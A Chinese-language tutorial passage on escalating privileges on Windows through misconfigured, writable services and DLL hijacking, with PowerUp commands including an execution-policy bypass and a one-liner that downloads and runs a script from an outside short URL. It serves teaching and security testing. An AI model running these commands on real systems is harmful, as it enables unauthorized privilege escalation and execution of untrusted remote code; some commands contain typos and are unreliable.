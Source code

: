 ​                                                                                                                                                                                                                                                

## 二、windwos操作系统配置错误利用分析与防范

windwos操作系统中，攻击者通常会通过系统内核溢出漏洞来提权，但如果无法利用，就会利用系统中的配置错误来提权。

windwos常见配置错误：

* 管理员凭据配置错误
* 服务器配置错误
* 故意削弱的安全措施
* 用户权限过高等

#### 2.1 系统服务权限配置错误

windwos系统服务文件在操作系统启动时加载和执行，并在后台调用执行文件。因此，如果一个低权限用户对此类系统服务调用的可执行文件拥有写权限，就可以将该文件替换成任意可执行文件，并随着系统服务的启动获得系统权限。

windwos服务是以 system 权限运行的，因此，其文件夹、文件和注册表键值都是受强访问机制保护的。但是，在某些情况下，操作系统中仍然存在一些没有得到有效保护的服务。

系统服务权限配置错误(可写目录漏洞)有如下两种可能：

* 服务未运行：攻击者会使用任意服务替换原来的服务，然后重启服务
* 服务正在运行且无法被终止：这种情况符合绝大多数的漏洞利用场景，攻击者通常会利用 DLL 劫持技术并尝试重启服务来提权。

#### 2.2 PowerUp利用

也就是 [**Privrsc**](https://github.com/PowerShellMafia/PowerSploit)

加载脚本

```
Import-Module .\Privesc.psm1
```

获取函数

```
Get-Command -Module Privesc
```

检测全部信息

```
Invoke-AllChecks   # 我的没有

Find-AllVulns     # 检测存在的漏洞
```

命令下执行

```
powershell.exe -exec bypass -Command "&{Import-Moudle .\PowerUp.ps1;Invoke-AllChecks}"
```

远程调用执行

```
powershell.exe -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://dwz.cn/2vkbfP');Invoke-AllChecks}"
```
